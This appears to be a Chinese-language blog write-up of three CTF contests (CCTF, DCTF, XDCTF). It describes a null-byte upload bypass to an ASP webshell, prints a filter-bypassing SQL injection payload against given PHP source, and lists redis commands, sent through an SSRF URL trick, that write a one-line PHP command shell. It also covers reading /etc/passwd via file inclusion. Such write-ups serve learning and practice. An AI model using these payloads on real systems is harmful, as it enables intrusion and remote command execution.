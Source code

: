 ```yaml
---
layout: post
title: 记一次viscms的SQL挖掘
date: 2017-10-02
tags: CTF
---
```


### CCTF

嘛，CCTF线上已经忘记了，当时的Writeup也忘记保存了。只记得做了几个Web，然后逆向什么的队友带飞（感谢哒哒哒哒哒以及二进制大佬）。

线下怎么说呢，第一次参加渗透版线下，主办方给了三个不同的ip，每个ip下有三层网络。Emmm...我觉得对于我们这种弱鸡一层就够了。ip1没有web服务器，只有一个22端口和一个奇怪的端口。队友说奇怪的端口是一个什么服务（忘记了），进了1的内网可以直接访问进1。ip2是一个web服务器，应该是一个商城，没记错的话。各种找漏洞利用点。robots写着站长英语不好，所以没有写。后来脑洞大开，想后台地址会不会是houtai之内的中文后台名，结果还真猜对了。后来发现后台有个越权，可以不登陆直接修改礼物信息，addlipin.asp。这里面可以直接上传图片等。于是乎%00绕过，%00记得使用的URL编码。成功上传一个asp小马，然后小马上传大马。大马搜索关键字有flag的文件。成功找到2个flag。可是还有个数据库里的flag，400分。没拿到。这道题很奇怪，各种提权都失败。cmd.exe传了也没用。控制命令几乎一个没有。结果我队一直认为必须想办法提权，或者自己加入cmd的命令写注册表开启3389。然后找到flag（asp编码能力太差）并进入ip1且可以进入下层网络。

emmm...结果就是，卡住太久，导致ip3没有做完，ip3只找到一个flag，卡在后台登录界面，后台登录赛后听说有注入，不过自己试的时候完全没发现啊。于是大佬们注入的注入，爆破密码的爆破密码，唯独我拿了个国外字典跑了半天没跑出来放弃了。赛后听说密码是admin123，心里很崩溃，因为自己试了adminadmin\admin123456\admin1234等，就是没尝试admin123。。。不然又能拿到flag。还能往ip1或者下层网络继续渗透。。。

所以，因为死磕ip2的提权太久，从第6降到了第12，成功拿到线上三等奖（摊手）。对了，还有个比赛时的趣事，好像因为ip3的界面留下了一个版权信息，于是我加了版权信息留下的qq，以为是主办方的人，让我们社工一波。跑过去社工一下，发现根本不是！而是真的cms的厂商。。。尴尬，和人尬聊。

总结：字典要强大，不要死磕（虽然死磕是个好习惯）。工具、字典什么的都要提前准备好。还是要多打多做积累经验才是王道。

### DCTF

嘛，被虐的体无完肤。junior的题凭什么最多才5point，一般都1、2point。还特么很难。web1是一个SQL注入，源代码泄露。拿到源代码。

	<?php

	$db  = mysqli_connect('localhost','root','root','test');
	
	$id  = @$_GET['id'];
	$key = $db->real_escape_string(@$_GET['key']);
	//$key = @$_GET['key'];
	
	if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
	    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected
	
	$query = "SELECT `id`,`name`,`key` FROM `user` WHERE `id` = $id AND `key` = '".$key."' ";
	echo $query;
	$q = $db->query($query);
	
	if($q->num_rows) {
	    echo '<h3>Users:</h3><ul>';
	    while($row = $q->fetch_array()) {
	        echo '<li>'.$row['name'].'</li>';
	    }
	
	    echo '</ul>';
	} else {
	    die('<h3>Nop.</h3>');
	}
	
源代码如上。id正则过滤很多，看着头大。key没有正则过滤但是有一个real_escape_string()。开始以为必须要绕过key，于是各种尝试宽字节无果，然后想办法设置编码为有问题的编码无果。毕竟sql语句拼接就这样，没地方可拼。后来实在没有办法，id的正则丢进正则测试工具，所有符号打一遍，留下没被过滤的符号看看。emmm....事后发现的关键有`;``0``<``>``%`。

当时想到`id=0;`截断语句，然后插入新的语句再注释掉后面的。无果。后来发现`id=0<>true;%00`;与%00缺一不可。没有`;`会造成语句没有结束继续等待的sql语法错误，没有`%00`后面的语句会被执行造成sql语法错误。

web2首先被导向有一个flag.php，很明显要得到它，直接到index.php看看是什么，发现是一个httpbin web应用。

![1](/images/posts/dctf/1.png)

可以选择POST、GET请求，URL进行了过滤，不允许localhost、127.0.0.1等域名。Data反而似乎没什么限制。这个会以你选择的请求方式请求一次你输入的URL，并将简单的HTTP报文返回。开始以为能导致命令执行，尝试多次，无果。返回URL错误。后来大佬表示这是一个CSRF、MD5碰撞。这道题有两个思路，CSRF是通过请求http://foo@127.0.0.1@foo/，欺骗DNS绕过URL的检测。然后在端口6379上发现返回。猜测是redis的默认端口。于是改为POST请求发送Data。Data中写redis的命令，往服务器写入shell.php。

	CONFIG set dir /var/www/sandbox
	CONFIG set dbfilename shell.php
	SET a '<?=`$_GET[1]`?>'
	SAVE

POST上去后，服务器返回如下：

	-ERR unknown command 'POST'
	-ERR unknown command 'Host:'
	-ERR unknown command 'Authorization:'
	-ERR unknown command 'Accept:'
	-ERR unknown command 'Content-Length:'
	-ERR unknown command 'Content-Type:'
	+OK
	+OK
	+OK

于是访问shell.php即可拿到flag.php

### XDCTF

嘛，web3的index.php会通过参数file打开index.html和flag.html。flag.html只有你什么都找不到这样的信息，然后目录扫描什么的又得不到信息。不过惊喜的是file可以得到index.php自己，在注释里看到了所有的源代码。于是尝试文件任意读取，可是居然找不到flag.php？？？？？喵喵喵？？？好吧，找到一个.DS_Store。可能flag的名字就在里面吧，于是下载下来解开查看目录，空的？？？喵喵喵？？？没办法，只有查看敏感文件如/etc/passwd，没有有用的信息，/etc/hosts。在hosts找到了这些。

	127.0.0.1 localhost
	::1 localhost ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
	172.18.0.3 ecba35241264
	
猜测是扫描C段找到172.18.0.3，然后就可以拿到权限或者找到flag。然而服务器日常宕机。扫描不出来。。。卡死在这一步。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [记一次viscms的SQL挖掘](http://RoyTse.github.io/2017/10/CCTF_DCTF_XDCTF的收获/)  